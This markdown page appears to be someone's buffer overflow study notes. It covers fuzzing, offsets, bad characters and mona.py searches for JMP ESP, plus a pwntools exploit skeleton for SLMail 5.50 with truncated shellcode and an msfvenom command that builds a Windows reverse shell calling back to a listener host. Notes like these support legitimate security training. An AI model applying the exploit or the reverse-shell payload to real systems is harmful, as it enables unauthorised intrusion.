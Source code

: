 # Buffer Overflow Notes

## General Notes

### 1. Generic process
1. Determine vulnerability via fuzzing or code review
2. Demonstrate crash in debugger
3. Review crash details, see state of registers for potential placement of exploit code.  
- Example: Is the EAX register pointing to any location where the user can place input? (JMP EAX)
4. Determine offset
5. Determine bad characters
6. Find jmp/call instruction
7. Sanity check with interrupts
8. Construct shellcode
9. Exploit
  
### 2. Useful instructions:
| Instruction        | Use                                          |
| ------------------ |:--------------------------------------------:|
| JMP ESP (0xFFE4)   | Jump to the stack pointer to begin execution |
| CALL ESP (0xFFD4)  | Push ESP onto stack and then jump to execute |
| INT3 (0xCC)        | Halt execution                               |
  
Can check what instructions are using `msf-nasm-shell`.

### 3. Typical pwntools exploit structure
Taken from SLMail 5.50 exploit.
```python
io = start()

jmpesp = '\x8f\x35\x4a\x5f'

shellcode =  ""
shellcode += "\xd9\xc0\xba\x14\xf9\xdc\xcf\xd9\x74\x24\xf4\x5b\x33" # etc

exploit = 'A' * 2606 + jmpesp + '\x90' * 32 + shellcode

info(io.recv(4096))
io.sendline('USER jack')
info(io.recv(4096))
io.sendline(f'PASS {exploit}')
info(io.recv(4096))
```

### 4. Bad bytes array
```python
chars = ""
chars += "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
chars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
chars += "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
chars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
chars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
chars += "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
chars += "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
chars += "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
1. Start with full set
2. Check dump and see what's missing
3. Remove it and run again until entire string makes it through intact.

### 5. Simple fuzzing function
For use in pwntools.
```python
def fuzz():
    print('Fuzzing target....')
    for i in range(0, 5000, 100):

        info(f'Sending length: {str(i)}')
        payload = cyclic(i)

        try:
            io = start()
        except PwnlibException as e:
            quit()

        io.sendline(f'{payload}') # Format this line accordingly
        io.close()
```

## Windows Exploitation
### Immunity Debugger and Mona.py
- Mona: https://github.com/corelan/mona

### Mona Commands
1. Search for libraries
```
!mona modules
```
2. Searching for JMP ESP
```
!mona find -s "\xFF\xE4" -m essfunc.dll
```
**Reminder: Any chosen address which goes into an exploit must not have bad characters**
  
### MSFVenom payloads
1. Reverse shell TCP (unstaged) example
```bash
msfvenom --arch x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.34.138 LPORT=9999 --var-name shellcode -b '\x00' -f python
```